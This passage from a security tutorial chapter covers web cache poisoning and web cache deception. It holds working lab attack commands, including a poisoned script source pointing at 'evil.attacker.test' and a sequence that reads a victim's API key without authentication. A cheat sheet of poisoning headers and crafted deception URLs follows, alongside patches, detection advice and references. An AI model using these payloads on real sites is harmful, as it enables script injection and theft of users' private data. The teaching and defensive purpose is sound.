grep -o '//[a-z.]*/static/app.js' /tmp/victim.out
```

Expected:

```
X-Cache: HIT           <- served from the poisoned store
Age: 3
//evil.attacker.test/static/app.js   <- victim (no header) gets attacker's script src!
```

A request that never sent `X-Forwarded-Host` received a `<script src="//evil.attacker.test/...">`.
On a real site every user on that key now loads attacker JS — stored XSS via cache poisoning.

### 10.5 Exploit 2 — web cache deception to steal the API key

```bash
# 1) VICTIM (has session cookie) opens the attacker's crafted static-looking URL
curl -s -D - "http://127.0.0.1:8080/account/pwn.css" \
     -b "sid=sess-victim" | tee /tmp/wcd_victim.out | grep -Ei 'x-cache|age'
grep -Eo 'API key: [A-Z0-9-]+' /tmp/wcd_victim.out
```

Expected:

```
X-Cache: MISS
Age: 0
API key: SECRET-KEY-8842    <- origin served Alice's private page for /account/pwn.css
```

The cache stored it because the path ends in `.css`. Now the attacker, **with no cookie at all**:

```bash
# 2) ATTACKER (no cookies) fetches the same URL
curl -s -D - "http://127.0.0.1:8080/account/pwn.css" | tee /tmp/wcd_attacker.out | grep -Ei 'x-cache|age'
grep -Eo 'API key: [A-Z0-9-]+' /tmp/wcd_attacker.out
```

Expected:

```
X-Cache: HIT
Age: 5
API key: SECRET-KEY-8842    <- attacker read Alice's private API key with NO auth
```

An unauthenticated request just read a logged-in user's API key. That is web cache deception, end to
end.

### 10.6 Patching the lab

Fix the origin and the cache; re-run and watch both exploits fail.

```python
# origin.py fixes:
# home(): key the response on the host you actually trust; do NOT reflect X-Forwarded-Host.
xfh = request.host                      # ignore the untrusted header entirely

# account(): mark authenticated content uncacheable, and do NOT match arbitrary suffixes.
@app.route("/account")                  # drop the /<path:junk> route
def account():
    ...
    resp.headers["Cache-Control"] = "private, no-store"   # never cache per-user data
    return resp
```

```python
# cache.py fixes:
# FLAW 1 fix: include the security-relevant headers in the key (or, better, never
#             reflect them at origin). Minimal: add Host to the key.
def cache_key():
    return (request.method, request.host, request.path, request.query_string.decode())

# FLAW 2 fix: never cache on extension alone; honour Cache-Control, and refuse
#             to cache responses that are private / set cookies / are 401.
def cacheable(path, upstream_headers, status):
    cc = upstream_headers.get("Cache-Control", "")
    if "private" in cc or "no-store" in cc or status in (401, 403):
        return False
    return "public" in cc            # extension is NOT sufficient reason to cache
```

Re-run both exploits: exploit 1's step 2 now returns the real host (no `evil.attacker.test`), and
exploit 2's attacker fetch returns `401`/no data because `/account/pwn.css` no longer routes to the
account handler and the account response is `private, no-store`. Both bugs closed by the same two
principles: **key every input that changes the response**, and **never cache per-user content**.

---

## Part 11: Real-World Cases, CVEs, and Notable Research

Cache attacks are not academic; they've hit household names and produced foundational research:

- **James Kettle — "Practical Web Cache Poisoning" (2018)** and **"Web Cache Entanglement" (2020)**:
  the defining research. Kettle poisoned real targets (including reportedly major homepages and
  Mozilla/Firefox start pages via unkeyed headers) and introduced the systematic unkeyed-input
  methodology and Param Miner. "Entanglement" extended it to cache-key normalisation, internal
  caches, and multi-step "cache key entanglement" chains.
- **Omer Gil — Web Cache Deception (2017):** the original disclosure, demonstrated against PayPal —
  an attacker could cache and read a victim's PayPal account page via `/account/x.css`-style URLs.
  This created the entire WCD class.
- **"Cached and Confused" (Mirheidari et al., USENIX Security):** large-scale academic measurement of
  web cache deception across top sites, formalising the path-confusion styles (extension, delimiter,
  normalisation) and finding many high-profile sites vulnerable.
- **CPDoS (Nguyen, Mainka, Schwenk et al., 2019):** Cache-Poisoned Denial of Service — the HHO/HMC/
  HMO variants — showed you can DoS a site by caching an error page, and found real CDNs/frameworks
  affected.
- **Cloudflare / CDN cache-key advisories:** repeated real-world issues where CDNs cached responses
  with `Set-Cookie`, or keyed too loosely, exposing session tokens — the practical reason "don't
  cache anything with `Set-Cookie`/`Authorization`" is a hard CDN default now.

The through-line: every one of these is a *disagreement* — cache vs origin about the key, or cache vs
origin about whether a response is private. The research matured the field from "weird trick" to a
systematic methodology, which is exactly the methodology in Parts 4–9.

---

## Part 12: Detection & Defense Angle

This is the consolidated defensive section. Defenses split cleanly along the two bug classes, but
share one root principle: **the cache and the origin must never disagree about (a) the key or (b)
whether a response is private.**

### Defending against cache poisoning

- **Key every input that influences the response.** If the origin reads `X-Forwarded-Host`,
  `X-Forwarded-Scheme`, a cookie, or any header to shape output, that header *must* be in the cache
  key (`Vary:` it) — or, far better, the origin must **not** trust it at all. The cleanest fix is:
  don't reflect untrusted request headers into responses. Derive absolute URLs from a configured,
  trusted host value, not from `X-Forwarded-*`.
- **Strip unexpected headers at the edge.** Configure the CDN/reverse proxy to drop `X-Forwarded-Host`,
  `X-Original-URL`, `X-Rewrite-URL`, and similar from inbound client requests before they reach the
  origin (set them yourself to trusted values). An input that never arrives can't be reflected.
- **Don't cache with `Set-Cookie`/`Authorization`.** Any response carrying a `Set-Cookie` or produced
  for an authenticated request should be `Cache-Control: private, no-store`. Most CDNs refuse to cache
  `Set-Cookie` responses by default — keep that default on.
- **Normalise consistently.** Ensure the cache and origin agree on URL normalisation (case, encoding,
  trailing slash, `;` handling, duplicate params). Reject or canonicalise ambiguous URLs at the edge.
- **Restrict what's cacheable.** Explicitly define cacheable paths (allow-list static assets) rather
  than caching by extension guesswork.

### Defending against cache deception

- **Never cache authenticated/personalised responses.** Mark every per-user response
  `Cache-Control: private, no-store`. This alone defeats classic WCD even if path confusion exists.
- **Cache by content-type, not URL extension.** A CDN rule "cache `.css`" is the root of WCD; instead
  cache only when the *origin's* `Content-Type` is a static type AND `Cache-Control` allows it. If
  `/account/x.css` returns `text/html`, don't cache it.
- **Eliminate path confusion at the origin.** Return `404` for `/account/<anything>` instead of
  serving `/account`. Strict routing that rejects trailing junk removes the discrepancy the cache
  relies on. Cloudflare, Akamai, and others have shipped specific WCD mitigations that compare the
  cached response's content-type to the extension.
- **Align cache and origin on "where the path ends."** The delimiter/normalisation styles only work
  when the two parse the URL differently; test your CDN+framework pair for these discrepancies.

### Blue-team detection

- **Monitor for anomalous cached responses:** a spike in identical `Set-Cookie`-bearing or
  `Content-Type: text/html` responses served under `.css`/`.js` keys is a WCD/poisoning signal.
- **Alert on unkeyed-header reflections:** WAF/analytics rules that flag responses reflecting
  `X-Forwarded-Host`/`X-Forwarded-For` values into HTML.
- **Watch cache-hit ratios and error caching:** a sudden cached `4xx`/`5xx` on a normally-200 path is
  a CPDoS indicator.
- **Log with the cache key.** Include the effective cache key in access logs so a poisoned entry is
  traceable to the request that created it, and so you can purge precisely.
- **Purge discipline & short TTLs on dynamic content:** the shorter the TTL on anything remotely
  dynamic, the smaller the blast radius and the shorter a poison survives.

---

## Part 13: Common Pitfalls & Gotchas

- **Confusing reflection with poisoning.** Seeing your `X-Forwarded-Host` in the response is *not* a
  bug by itself — that's reflected, and might be keyed. You must prove the *header-less* request gets
  the poisoned copy (Part 4, step 2). Skipping the confirmation is the #1 false positive.
- **Testing on the shared key and harming users.** Always use a cache buster; never confirm impact by
  poisoning the real key customers hit (Part 3). This is both an ethics and a scope issue.
- **Not controlling for TTL/state.** A stale entry from a previous test can make a fixed endpoint look
  vulnerable or a vulnerable one look fixed. Rotate cache-buster values and note `Age`.
- **Assuming the CDN, not testing it.** "Cloudflare doesn't cache HTML by default" — until a page rule
  or a `.css` path makes it. Verify from headers on *this* target, don't assume vendor defaults.
- **Ignoring `Vary`.** If `Vary: X-Forwarded-Host` is present, that header *is* keyed — not poisonable
  via that route. Read `Vary` before you get excited.
- **WCD without a real private sink.** Caching `/account/x.css` that returns a *login page* (because
  you weren't authenticated) proves nothing. You must show *authenticated* data cached and read
  unauthenticated — hence the two-account method.
- **Over-broad Param Miner runs on live targets.** The everything-wordlist generates enormous
  traffic and can trip rate limits or violate program rules. Start small.
- **Fragment/`#` confusion.** `#` is client-side only in browsers, but in cache/origin *parsing*
  discrepancies a literal `#` in a raw request can behave as a delimiter — test it deliberately, don't
  assume browser semantics.

---

## Part 14: Final Revision / Summary

- A **cache** stores a response and replays it for later "equivalent" requests. Only **shared**
  caches (CDN, reverse proxy, origin cache) are interesting; browser caches are private.
- The **cache key** is the fingerprint that decides "same request". **Keyed** inputs are in it;
  **unkeyed** inputs are ignored by the cache but may still change the origin's response — that gap is
  the whole of cache poisoning.
- **Cache poisoning**: get a shared cache to store a response *you* shaped (via an unkeyed header, a
  fat-GET body, a delimiter/normalisation key flaw), so it's served to all users on that key. Impact
  ladder: stored XSS → open redirect → `<base>`/relative-URL hijack → CPDoS.
- The **unkeyed-input method**: reflect a canary via a candidate header on a buster key, then request
  the buster key *without* the header — if the canary comes back on a `HIT`, it's unkeyed and
  poisonable. **Param Miner** automates the discovery; confirm by hand.
- **Web cache deception** is the mirror: trick the cache into storing a *victim's private* response
  under an attacker-fetchable URL (via static-extension, directory, delimiter, or normalisation path
  confusion), then fetch it. No injection needed.
- **Test safely**: cache-buster on a private key for poisoning; two own-accounts for deception; never
  leave a poisoned production entry; respect program rules.
- **Defense, both classes, one root idea**: cache and origin must agree on the key and on privacy.
  Key every response-affecting input (or don't trust it), never cache per-user/`Set-Cookie` content,
  cache by content-type not extension, and eliminate path confusion with strict routing.

---

## Part 15: Cheat Sheet / Quick Reference

### Cache fingerprinting

```bash
curl -s -D - -o /dev/null URL | grep -Ei 'cache-control|age|vary|x-cache|cf-cache-status|expires'
# repeat -> Age climbs, X-Cache MISS->HIT means it's cached
```

### Response headers to read

| Header | Tells you |
|---|---|
| `Cache-Control: public/private/no-store/max-age/s-maxage` | if/how long cacheable |
| `Age` | seconds in cache (proof of caching) |
| `X-Cache` / `CF-Cache-Status` / `X-Cache-Status` | HIT/MISS |
| `Vary` | which headers ARE keyed (not poisonable via those) |
| `Set-Cookie` present | should never be cached — if it is, big problem |

### Poisoning candidate headers

```
X-Forwarded-Host:  <- #1: reflected into absolute URLs / script/link src
X-Forwarded-Scheme / X-Forwarded-Proto:  <- triggers redirect to X-Forwarded-Host
X-Host / X-Forwarded-Server:
X-Original-URL / X-Rewrite-URL:  <- override routed path
X-Forwarded-For:  <- reflected into pages/logs
```

### Manual poisoning confirmation (private key)

```http
# 1) poison
GET /page?cb=UNIQUE HTTP/1.1
Host: target
X-Forwarded-Host: canaryUNIQUE.attacker.test
# 2) confirm unkeyed (NO header) -> canary still present + X-Cache: HIT => bug
GET /page?cb=UNIQUE HTTP/1.1
Host: target
```

### Fat GET

```http
GET /search?cb=UNIQUE HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: N

q=<payload>
```

### WCD crafted URLs (try each style)

```
/account/foo.css            # static extension
/account/foo.js
/account;foo.css            # delimiter
/account%00.css
/account%23.css             # encoded #
/static/..%2faccount        # static directory / traversal
/account%2f%2e%2e%2fx.css   # normalisation
```

### WCD confirmation (two own accounts)

```bash
# victim (cookies) opens crafted URL, then attacker (no cookies) fetches same URL:
curl -s -D - URL/account/wcd-UNIQUE.css -b "sid=..." | grep -Ei 'x-cache|age'   # MISS, private data
curl -s -D - URL/account/wcd-UNIQUE.css                | grep -Ei 'x-cache|age'   # HIT, private data => WCD
```

### Defense one-liners

```
Cache-Control: private, no-store         # on ALL authenticated / per-user responses
Vary: X-Forwarded-Host                    # if you MUST reflect it, key it
# strip X-Forwarded-Host / X-Original-URL / X-Rewrite-URL at the edge
# cache by Content-Type, never by URL extension
# route /account strictly -> 404 on /account/<junk>
```

---

## Part 16: Practice Labs & Resources

Train each specific primitive on labs that actually reproduce it:

- **PortSwigger Web Security Academy — Web cache poisoning** (free): the definitive lab set. Covers
  "Web cache poisoning with an unkeyed header", "...unkeyed cookie", "...via a fat GET request",
  "Parameter cloaking", "Cache key injection", "Internal cache poisoning", "Cache key normalisation",
  and the exploit-chain labs. Do these in order — they map directly onto Parts 4–7.
- **PortSwigger Web Security Academy — Web cache deception** (free): the WCD lab set covering the
  static-extension, delimiter, and normalisation path-confusion styles — mirrors Parts 8–9.
- **PortSwigger research writeups**: "Practical Web Cache Poisoning" and "Web Cache Entanglement" by
  James Kettle — read these end to end; the labs are the practice, these are the theory.
- **Param Miner (BApp Store)**: install it and run it against the PortSwigger labs to see real unkeyed
  headers discovered, then confirm each by hand.
- **"Cached and Confused" (USENIX Security paper) and Omer Gil's original WCD writeup**: for the
  deception taxonomy and the PayPal case study.
- **CPDoS project site (cpdos.org)**: HHO/HMC/HMO demos and affected-vendor list — for the
  denial-of-service branch in Part 6.3.
- **HackerOne / Bugcrowd disclosed reports**: search disclosed "cache poisoning" and "cache
  deception" reports to see how real findings are written up, scoped, and triaged — invaluable for
  learning non-destructive proof and impact framing.
- **Your own lab** (Part 10): extend it — add a `Vary` header and watch poisoning break; add a
  delimiter-keyed cache and reproduce cache-key injection; add a login flow and reproduce WCD with a
  real session cookie.

In the next chapter we move to the last Server-Side topic — subdomain takeover and dangling DNS —
another "someone else controls a resource your users trust" bug, but rooted in DNS and cloud resource
lifecycles rather than caches.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-server-side/07-web-cache-poisoning-and-deception), with comments and the latest edits.*
